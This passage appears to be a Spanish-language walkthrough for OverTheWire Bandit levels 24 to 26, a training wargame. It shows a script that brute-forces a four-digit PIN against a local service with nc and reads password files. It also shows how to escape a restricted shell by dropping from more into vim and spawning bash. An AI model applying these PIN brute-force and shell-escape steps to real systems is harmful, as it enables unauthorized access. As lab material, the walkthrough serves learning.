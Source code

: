 - Generar toda la combinatoria  
```sh
mktemp -d
cd /tmp/ID-ARCHIVO-GENERADO
touch script.sh
cat /etc/bandit_pass/$(whoami)  ->> PASSWORD bandit24
echo '#!/bin/bash' > script.sh && cat /etc/bandit_pass/$(whoami) 1>> script.sh
chmod +x script.sh
nano script.sh	
```  

El script deberia verse así:  

```script.sh         
#!/bin/bash
for i in {0000..9999}; do
    echo  "PASSWORD-BANDIT24 $i"
done
```  

Luego ejecutar el siguiente comando para tener las claves en un archivo:  

```sh
./script.sh > dictionary.txt
cat dictionary.txt | nc localhost 30002 | grep -v -E "Wrong|Please"
```  

### - Bandit Level 25 → Level 26   

LEVEL GOAL: Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.  

NOTE: if you’re a Windows user and typically use Powershell to ssh into bandit: Powershell is known to cause issues with the intended solution to this level. You should use command prompt instead.  

**Solución:**   
```sh
cat /etc/passwd | grep bandit26
cat /usr/bin/showtext 

ssh -p 2220 -i bandit26.sshkey bandit26@localhost
```  

EXPLICACION `cat /usr/bin/showtext`: 

'showtext' abre un archivo llamado 'text.txt' con el programa more.  

'more' permite realizar una pausa en pantalla si el texto a mostrar no cabe en la
terminal. Pero además permite multiples cosas más como ejecutar comandos.  

Para solucionar este problema tengo que ajustar la terminal con un tamaño pequeño realizar la para conexión con ssh a ver que pasa.  

Una vez dentro de more presion la letra v para entrar en vim.  

En vin escribo los siguientes comando:  

```sh
:set shell=/bin/bash     
:shell    # ->> ejecuto la variable de entorno en VIM.
```
